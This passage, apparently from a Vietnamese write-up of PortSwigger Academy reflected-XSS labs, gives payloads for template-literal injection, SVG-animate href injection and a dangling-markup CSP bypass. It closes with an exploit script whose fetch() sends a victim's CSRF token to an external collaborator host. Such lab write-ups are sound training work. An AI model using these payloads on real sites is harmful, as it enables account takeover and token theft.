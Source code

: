 ![image](https://user-images.githubusercontent.com/103978452/209027414-7c316126-488b-44fa-996f-6910d02bdc4c.png)
Đoạn script sử dụng dấu backticks, như vậy ta có thể dễ dàng execute javascript bằng cách chèn payload `${alert(1)}`

Thử search với từ khóa `${alert(1)}`, kết quả thành công.

# 25. Reflected XSS with event handlers and `href` attributes blocked
Tiến hành brute-force bằng BurpIntruder, ta thấy website đã block hầu hết các thẻ và thuộc tính `href`. Tuy nhiên thẻ `<a>`, `<svg>`, `<animate>` và `<text>` vẫn được cho phép.

Từ thẻ `<animate>`, ta hoàn toàn có thể gán được thuộc tính `href` cho thẻ `<a>`. Ta dùng chức năng search với từ khóa sau:
```
<svg><a><text x=20 y=20>Click me</text><animate attributeName=href dur=5s repeatCount=indefinite keytimes=0;0;1 values="https://.net?;javascript:alert(1);0">
```

Sau khi submit, bài lab được giải thành công.

# 26. Reflected XSS in a JavaScript URL with some characters blocked

# 27. Reflected XSS with AngularJS sandbox escape without strings

# 28. Reflected XSS with AngularJS sandbox escape and CSP

# 29. Reflected XSS protected by very strict CSP, with dangling markup attack
Nhận thấy trong trang `/my-account`, nếu ta thêm tham số `?email=abc` thì tag input trong chức năng đổi email cũng sẽ có giá trị là `abc`. Thử với `?email="><a>Hello</a>` thì thấy thẻ a được chèn vào. Như vậy website có hổng XSS với thuộc tính `email`. Tuy nhiên các đoạn code javascript được inject vào đều bị chặn do có strict CSP.

Ta sẽ dùng kỹ thuật "Evading CSP" để bypass CSP. Thử thay đổi 
```?email=%22%3E%3Ca+href%3D%22https%3A%2F%2Fexploit-0a2500910398f0fac059a33001b9007b.exploit-server.net%2Fexploit%22%3EClick+me%3C%2Fa%3E%3Cbase+target%3D%27``` 
Khi đó, tag `<input>` sẽ trở thành:

![image](https://user-images.githubusercontent.com/103978452/210034677-9c81f06b-1565-4161-af6b-127d5cb2f47f.png)

Ta thấy csrf token đã nằm trong thuộc tính `target` của tag `<base>`. Như vậy khi click vào thẻ `<a>`, sẽ mở ra một cửa sổ mới, với thuộc tính `window.name` chứa csrf token.

Vào exploit server, cấu hình đoạn HTML sau:

```
<script>
if(window.name==''){
document.location="https://0aab008703b2f0a4c051a494005f0030.web-security-academy.net/my-account?email=%22%3E%3Ca+href%3D%22https%3A%2F%2Fexploit-0a2500910398f0fac059a33001b9007b.exploit-server.net%2Fexploit%22%3EClick+me%3C%2Fa%3E%3Cbase+target%3D%27";
}else{
fetch('https://8irq370clmt6duqr781i0yxfo6u3is.oastify.com?code='+encodeURIComponent(window.name));
}
</script>
```

```